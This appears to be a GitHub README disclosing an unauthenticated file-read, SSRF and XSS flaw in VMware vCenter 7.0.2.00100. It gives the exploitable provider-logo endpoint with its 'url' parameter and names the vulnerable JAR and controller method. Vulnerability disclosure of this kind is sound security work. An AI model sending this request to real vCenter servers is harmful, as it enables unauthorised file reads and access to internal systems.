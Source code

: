 # VMware vCenter earlier versions (7.0.2.00100) has unauthorized arbitrary file read + ssrf + xss vulnerability
## POC
https://{vCenterserver}/ui/vcav-bootstrap/rest/vcav-providers/provider-logo?url={url}

File read:

![](./file_read.PNG)


SSRF + XSS:

![](./xss.PNG)

## vulnerable code:
/etc/vmware/vsphere-ui/cm-service-packages/com.vmware.cis.vsphereclient.plugin/com.vmware.h4.vsphere.client-0.4.1.0/plugins/h5-vcav-bootstrap-service.jar

com.vmware.h4.vsphere.ui.bootstrap.controller.ProvidersController.getProviderLogo()

![](./code.PNG)

Tested on vCenter 7.0.2.00100, not knowing the exact affected version range or cve id
